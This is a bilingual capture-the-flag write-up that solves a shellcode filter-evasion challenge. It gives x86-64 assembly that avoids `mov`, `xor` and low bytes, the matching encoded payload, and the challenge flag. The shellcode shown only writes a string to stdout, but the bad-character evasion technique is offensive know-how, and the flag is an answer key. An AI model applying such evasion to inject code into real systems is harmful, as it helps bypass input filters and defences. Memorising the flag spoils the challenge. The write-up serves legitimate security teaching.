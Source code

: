 # Shellcode Obfuscation 3
## Write-up
### Solution (Français)
Les restrictions ici nous interdisent d'utilise les instructions `mov` et `xor` ainsi que tout entre \x00 et \x0f. On doit donc trouver une façon de les substituer avant de faire notre syscall.

On peut faire des opérations comme des additions et soustractions pour arriver a notre fin. On peut aussi utiliser des opérations de bitshift. 

Voici a quoi peut ressembler le code pour faire ça:
``` assembly
BITS 64 
sub rcx,rcx
add ecx, 0x736567e8
shl rcx,0x20
add rcx, 0x6e614d00 + 0x11111111
sub rcx, 0x11111111
push rcx
push rcx
sub rdi,rdi
inc rdi
push 0x111111b8
pop rdx
sub rdx, 0x111111b0
lea rsi, [rsp]
sub rax,rax
inc rax

push 0x050f + 0x1111b0b0
pop rcx
sub rcx, 0x1111b0b0
push rcx
jmp rsp
```

Payload: `\x48\x29\xc9\x81\xc1\xe8\x67\x65\x73\x48\xc1\xe1\x20\x48\x81\xc1\x11\x5e\x72\x7f\x48\x81\xe9\x11\x11\x11\x11\x51\x51\x48\x29\xff\x48\xff\xc7\x68\xb8\x11\x11\x11\x5a\x48\x81\xea\xb0\x11\x11\x11\x48\x8d\x34\x24\x48\x29\xc0\x48\xff\xc0\x68\xbf\xb5\x11\x11\x59\x48\x81\xe9\xb0\xb0\x11\x11\x51\xff\xe4`

Flag: `flag-ML5V9JD3K8WTYQZA7R6YA2C3DZ8V7T1B`

### Solution (English)
The restrictions here forbid us to use the `mov` and `xor` instructions as well as anything between \x00 and \x0f. We must therefore find a way to substitute them before making our syscall.

We can do operations like additions and subtractions to get to our goal. We can also use bitshift operations.

Here is what the code might look like to do this:
``` assembly
BITS 64 
sub rcx,rcx
add ecx, 0x736567e8
shl rcx,0x20
add rcx, 0x6e614d00 + 0x11111111
sub rcx, 0x11111111
push rcx
push rcx
sub rdi,rdi
inc rdi
push 0x111111b8
pop rdx
sub rdx, 0x111111b0
lea rsi, [rsp]
sub rax,rax
inc rax

push 0x050f + 0x1111b0b0
pop rcx
sub rcx, 0x1111b0b0
push rcx
jmp rsp
```

Payload: `\x48\x29\xc9\x81\xc1\xe8\x67\x65\x73\x48\xc1\xe1\x20\x48\x81\xc1\x11\x5e\x72\x7f\x48\x81\xe9\x11\x11\x11\x11\x51\x51\x48\x29\xff\x48\xff\xc7\x68\xb8\x11\x11\x11\x5a\x48\x81\xea\xb0\x11\x11\x11\x48\x8d\x34\x24\x48\x29\xc0\x48\xff\xc0\x68\xbf\xb5\x11\x11\x59\x48\x81\xe9\xb0\xb0\x11\x11\x51\xff\xe4`

Flag: `flag-ML5V9JD3K8WTYQZA7R6YA2C3DZ8V7T1B`